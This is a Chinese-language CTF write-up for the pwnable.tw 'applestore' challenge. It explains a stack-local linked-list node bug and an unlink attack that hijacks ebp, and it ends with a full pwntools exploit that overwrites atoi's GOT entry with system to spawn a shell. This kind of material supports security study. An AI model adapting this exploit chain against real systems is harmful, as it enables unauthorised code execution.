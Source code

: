 ```yaml
---
Layout: Post
title: pwnable.tw applestore
date: 2022-09-08 08:41:53
tags: pwnable.tw
---
```


把局部变量用作静态变量，是不是一种栈上数据的UAF……

<!-- more -->

## 程序分析

弄懂本题逻辑的关键点在于弄懂其数据结构是什么，而本人花了一天才终于搞明白，居然是用**双向链表**来表示购物车。

链表结点结构如下：

![struct cart_item](/images/applestore_1.png)

而程序中有很多的地方都有经典的双向链表操作，比如insert函数中是把结点添加到链表尾部，remove函数会把结点**unlink**出双向链表，cart函数会遍历链表等等……

![remove(): unlink](/images/applestore_2.png)

## 漏洞分析

checkout函数将会调用cart函数遍历并计算购物车中所有商品的价格，如果是一个特定值（7174）的话，将会触发一个彩蛋：往购物车的尾部添加一个iPhone8！

然而这个iPhone8就是漏洞的所在——**iPhone8结点是一个本地变量，然而程序把这个本地变量当作静态变量使用了！**

而作为一个菜单题，很多选项背后的函数，都会在iPhome8结点位置附近（iPhone8结点位于ebp-0x20）放置一个BUFFER来存储输入（BUFFER位于ebp-0x22），因此实际上**可以控制iPhone8结点的值**。

在控制值之后，我们可以利用cart函数泄露任意地址数据，也可以使用remove函数进行unlink attack来覆写数据，但值将会受到限制，因为使用指令向一个不可写地址写入数据将导致程序崩溃。

由于程序显然不存在RWX段，因此我们想要进行unlink attack，fake fd和fake bk都必须是一个可写的段的地址。我们想要劫持控制流，必须要采取别的方法。

这个方法我没有想到，是去网上看大佬WP学到的，我将其称为：**Stack Pivot Lite**（只劫持ebp的stack pivot）。

具体来说：在handle函数（处理菜单的函数）中，每次循环的一开始都会往BUFFER里读入数据并调用atoi函数将其转换为数字。而这个BUFFER作为栈上的变量，是使用`[ebp + offset]`的格式来引用的（见下面的汇编代码）。
如果可以**劫持ebp**，那么实际上我们可以劫持read到别的地方（如atoi的got表位置），然后读入system的地址加上";/bin/sh"，如此一来，执行atoi的时候实际上执行的是system("不可打印字符;/bin/sh")！！

```asm
mov     dword ptr [esp+4], 15h ; nbytes
lea     eax, [ebp+nptr]
mov     [esp], eax
call    my_read

lea     eax, [ebp+nptr]
mov     [esp], eax      ; nptr
call    _atoi
```

那么如何劫持ebp呢？用unlink来写入即可，因为fake fd（got表附近）和fake bk（栈）都是可写的，所以这次unlink可以正常运行！

## 漏洞利用

脚本逻辑如下：
首先用循环来填充购物车，将总金额凑满7174元。（求多元一次方程的整数解问题，或许是线代的基本功？但是我早就忘了（悲），不过好运的是，我第一次凑就突然凑出来了）

然后在购物车中加入iPhone8，利用Cart函数先后泄露libc地址（利用GOT表）和栈地址（利用_environ）。

第三步，通过**覆写remove函数栈帧上的saved ebp**，来**劫持handle函数的ebp**，来劫持提供给read的实参指针。
然后将atoi的got表指针修改为system()，等待handle函数调用 `atoi([ebp-0x22])` ，实际上执行的是 `system("不可打印字符;/bin/sh")` ，拿到Shell和Flag。

```python
from pwn import *
context.arch='i386'
# context.log_level='debug'

filename="./applestore"
# io = process([filename])
io = remote("chall.pwnable.tw", 10104)
elf=ELF(filename)

libc_name="./libc_32.so.6"
# libc_name="/home/nss/glibc-all-in-one-master/libs/2.23-0ubuntu5_i386/libc.so.6"
libc=ELF(libc_name)

def Debug():
    gdb_script = """
    b *0x8048beb
    """
    g = gdb.attach(io, gdb_script)

def Add(ID):
    io.sendlineafter(b"> ", b'2')
    io.sendlineafter(b"> ", str(ID).encode('ascii'))

def Remove(ID):
    io.sendlineafter(b"> ", b'3')
    io.sendlineafter(b"> ", str(ID).encode('ascii'))

def List():
    io.sendlineafter(b"> ", b'4')
    io.sendlineafter(b"> ", b'y')

def Checkout():
    io.sendlineafter(b"> ", b'5')
    io.sendlineafter(b"> ", b'y')

"""Edit metadata of iPhone 8 struct and print it"""
def List_Edit(data):
    io.sendlineafter(b"> ", b'4')
    io.sendlineafter(b"> ", b'yy'+data)

def Unlink_Attack(fd, bk):
    io.sendlineafter(b"> ", b'3')
    io.sendlineafter(b"> ", b'27'+pack(0x8049000)+pack(0xdeadbeaf)+fd+bk)


for i in range(6):
    Add(1)
for i in range(20):
    Add(2)

# leak libc and stack:
Checkout()
List_Edit(pack(elf.got["puts"]) + pack(0x114514))
io.recvuntil(b'27: ')
libc_base = unpack(io.recvuntil(b'28: ')[0:4]) - libc.symbols['puts']
success("libc_base: " + hex(libc_base))

_environ_addr = libc_base + libc.symbols["_environ"]
success("_environ_addr: " + hex(libc_base))
List_Edit(pack(_environ_addr) + pack(0x114514))
io.recvuntil(b'27: ')
environ = unpack(io.recvuntil(b'28: ')[0:4])
success("environ: " + hex(environ))

savedrbp_addr = environ - 0xffffd13c + 0xffffd038
success("savedrbp_addr: " + hex(savedrbp_addr))

# unlink attack
# Debug()
Unlink_Attack(pack(elf.got["atoi"] + 0x22), pack(savedrbp_addr - 0x8)) # saved rbp
io.sendline(pack(libc_base+libc.symbols["system"])+b";/bin/sh")

io.interactive()

```
